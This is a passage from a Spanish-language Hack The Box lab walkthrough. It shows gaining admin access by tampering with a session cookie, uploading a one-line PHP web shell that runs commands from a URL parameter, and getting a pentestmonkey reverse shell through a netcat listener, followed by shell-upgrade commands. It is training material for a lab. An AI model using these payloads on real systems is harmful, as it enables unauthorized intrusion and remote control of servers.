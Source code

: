 ![admin](admin.png)

Sorpresa, tenemos el perfil de **admin** y su **Access ID**: 34322

Lo introduciremos como valores en la cookie de sesión. Nos vamos a **Uploads** y ya tenemos posibilidad de subir ficheros

![uploads](uploads.png)

Intentaremos subir un fichero típico en PHP para ver si es posible ejecutarlo remótamente:

~~~php
<?php
  system($_GET["cmd"]);
?>
~~~

Con una comprobación en la URL comprobaremos que el fichero se ejecuta y en la ruta que aparentemente parecía más lógica: `megacorp.com/uploads/script.php`.

Le pasamos el comando **whoami** al parámetro **cmd** de esta manera: `megacorp.com/uploads/script.php?cmd=whoami`

> Debe existir alguna tarea **cron** corriendo que elimina el fichero pasados unos segundos por lo que la ejecución del comando no se puede demorar muchos segundos
{: .prompt-warning}

![whoami](whoami.png)

## Reverse Shell

Aprovechamos la ventaja de poder subir código en **PHP** que nos otorga el formulario al usar las cookies de admin para lanzar una **reverse shell** y ponernos a la escucha desde nuestro equipo.

Desde el reporitorio de [GitHub de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) descargamos una reverse Shell en PHP ya lista.

Nos ponemos a la escucha desde nuestro equipo local con Netcat

~~~bash
nc -nlvp 7777
~~~

Haciendo uso del archivo anterior ya subido le mandamos el siguiente comando que nos dará una shell por el puerto 7777 a nuestra máquina local visitando la URL del archivo subido `http://megacorp.com/uploads/reverse.php`:

![in](in.png)

Estamos dentro. Ahora toca hacer un tratamiento de la shell

~~~bash
script /dev/null -c bash
CTRL-Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty size
sttr rows 44 columns 184
~~~


[htb]: https://www.hackthebox.com
[vpn]: https://www.skkkajenen.com/posts/Connect-VPN-HTB/
[nmap]: https://nmap.org
[gobuster]: https://github.com/OJ/gobuster
[burpsuite]: https://portswigger.net/burp